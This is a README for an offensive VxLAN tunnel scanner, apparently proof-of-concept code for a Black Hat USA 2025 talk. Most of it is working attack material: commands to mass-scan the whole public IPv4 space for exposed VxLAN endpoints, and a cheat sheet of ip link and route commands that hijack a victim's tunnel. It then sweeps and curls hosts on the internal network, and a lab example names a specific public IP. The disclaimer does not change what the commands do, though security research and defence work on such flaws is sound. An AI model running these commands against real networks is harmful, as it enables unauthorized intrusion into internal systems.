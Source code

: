 # VxLAN Tunnel Scanner
- A scanner that searches for misconfigured VxLAN tunnels around the world and can potentially hijack entire tunnel access to internal networks.
## Reference
- This is a PoC code for Black Hat USA 2025 Briefing: [From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678) 
## Prepare
- `pip3 install requirement.txt`
## Usage
```
python3 main.py -i <interface> -l <your_public_IP> -d <VxLAN_dst_ip_subnet or ip_list_file>
```
## Example
- for example `1.1.1.1` has VxLAN tunnel you are `3.3.3.3`, and VNI might be 1 to 100
```
python3 main.py -i eth0 -l 3.3.3.3 -d 1.1.1.1 -vni 1:100 -p 4789,8472
CRITICAL - Received reply from Source IP: 1.1.1.1, VNI: 42, VXLAN Port: 8472, VXLAN Source Mac: ee:bb:cc:aa:55:11, VXLAN Source IP: 10.0.0.1
```
- And get how to abuse VxLAN tunnel
```
python3 main.py -l 3.3.3.3 -d 1.1.1.1 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=vxlan-test
MYPUBIP=3.3.3.3
DSTADDR=1.1.1.1
TIP=10.0.0.2/24
TVIP=10.0.0.1
DPORT=8472
VID=42
ip link add $IFACE type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IFACE
ip addr add $TIP dev $IFACE
## route possible private ip ##
ip r add 10.0.0.0/8 via $TVIP dev $IFACE src $MYPUBIP
ip r add 172.16.0.0/12 via $TVIP dev $IFACE src $MYPUBIP
ip r add 192.168.0.0/16 via $TVIP dev $IFACE src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16 2>/dev/null

#### cleanup ####
ip link del $IFACE
```
- default setting about 500 package/sec.

## options
- `-sch`: Show Cheetsheet and exit (Input -i -l -d which you found then get abuse VxLAN tunnel command)
- `-l3`: Layer 3 tunnel interface (Default: False)
- `-vni`: Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-p` Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-ss`: Save and use status file (the last scan will resume) (Default: False)
  - Recommend "on" in mass scan system sometime kill the script
- `-i <interface>`: Interface to send package
- `-d <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as VxLAN dst
- `-l <ip>`: A IP on your pubilc interface (the IP on -i interface)
- `-o <file>`: Log file path
- `-t <float>`: Wait how many second after VxLAN packet send (Default: 2)
- `-T <int>`: How many thread send VxLAN packet in same time (Default: 255)
- `-cs <int>`: Send how many ip until start wait for ping to responsed (default: 1000)
- `-dp`: Do private - scan private ip VxLAN (Default: False)
  - Use this if you know the inside intranet address
- `-v <log_level>`: Logging level `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Default: INFO)
  - VxLAN peer found log is on `CRITICAL`
- `-tip` : tunnel address **inference** from scan result, **contains subnets** (for cheet sheet only)
- `-tvip` : Victim tunnel address from scan result (for cheet sheet only)


## better way to scan full public ip
```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i <interface> -l <your_public_IP> -d aggrv4table.txt -ss
```

## Lab
### Scan VxLAN tunnel
```
python3 main.py -i <iface> -l <your_ip> -d 160.25.104.200
CRITICAL - Received reply from Source IP: 160.25.104.200, VNI: 42, VXLAN Port:8472, VXLAN Source Mac: fa:10:04:a1:e1:cf, VXLAN Source IP: 10.0.0.1
```
### Access & Scan intranet
```
python3 main.py -l 9.9.9.9 -d 160.25.104.200 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
#### Create Fake Tunnel ####
MYPUBIP=9.9.9.9  #change this
DSTADDR=160.25.104.200
DPORT=8472
VID=42
IF_NAME=vxlan-test
ip link add $IF_NAME type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IF_NAME
ip addr add 10.0.0.2/24 dev $IF_NAME
ping -c 1 10.0.0.1
ip r add 192.168.122.0/24 via 10.0.0.1

### start scan intranet ###
# nmap 192.168.122.0/24
ping -c 1 192.168.122.20

## test curl to web ##
curl 192.168.122.20
# YOU KNOW VxLAN!

#### cleanup ####
ip link del $IF_NAME
```

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
